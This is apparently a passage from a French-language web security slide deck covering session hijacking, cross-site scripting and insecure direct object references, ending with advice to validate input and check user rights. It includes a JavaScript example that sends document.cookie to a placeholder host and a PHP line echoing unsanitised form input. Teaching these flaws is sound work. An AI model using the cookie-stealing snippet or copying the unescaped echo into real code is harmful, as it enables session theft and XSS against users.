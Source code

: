```
http://exemple.com/?jsessionid=A2938298D293
```

---

Vol du cookie de session

```javascript
// Exemple de vol d'un cookie de session en JavaScript
var img = new Image();
img.src = "http://exemple.com/?jsessionid=" + document.cookie;
document.body.appendChild(img);
```

---

### Cross-Site Scripting (XSS)

Exécution de code JavaScript sans validation.

- XSS Stocké (base de données).
- XSS Réfléchi (URL / Lien).

---

```html
Votre Nom : <input type="text" name="nom" value="" />
```

```js
echo "Bonjour " . $_POST['nom'];
```

---

### A4 - Références directes non sécurisées à un objet

```
http://exemple.com/liste?mode=client
```

Si je change client par … admin ?

---

```sql
SELECT * FROM client where mode=?
```

```php
$stmt->bindParam(1, $mode);
```

---

- Toujours valider les entrées utilisateurs.
- Toujours vérifier les droits de l'utilisateur.

```php
if ($_SESSION['mode'] == 'client') {
    // On peut charger la ressource
} else if ($_SESSION['mode'] == 'admin') {
    // On peut charger la ressource
} else {
    // On ne peut pas charger la ressource
}
```
